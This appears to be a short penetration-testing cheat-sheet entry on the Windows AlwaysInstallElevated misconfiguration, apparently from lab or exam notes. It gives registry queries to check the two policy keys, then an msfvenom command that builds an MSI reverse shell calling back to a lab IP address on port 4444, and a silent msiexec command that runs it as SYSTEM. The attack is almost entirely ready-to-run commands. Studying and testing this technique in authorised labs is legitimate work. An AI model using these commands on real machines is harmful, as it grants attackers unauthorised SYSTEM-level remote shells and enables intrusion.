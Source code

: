 **If** these 2 registers are **enabled** (value is **0x1**), then users of any privilege can **install** (execute) *.msi files as NT AUTHORITY\SYSTEM
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

OR

Check WinPEAS output and see if AlwaysInstallElevated is flagged out

### Generating the payload
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.24 LPORT=4444 -f msi -o reverse.msi ## CHANGE LHOST
```

### Executing MSI File
```
msiexec /quiet /qn /i reverse.msi
```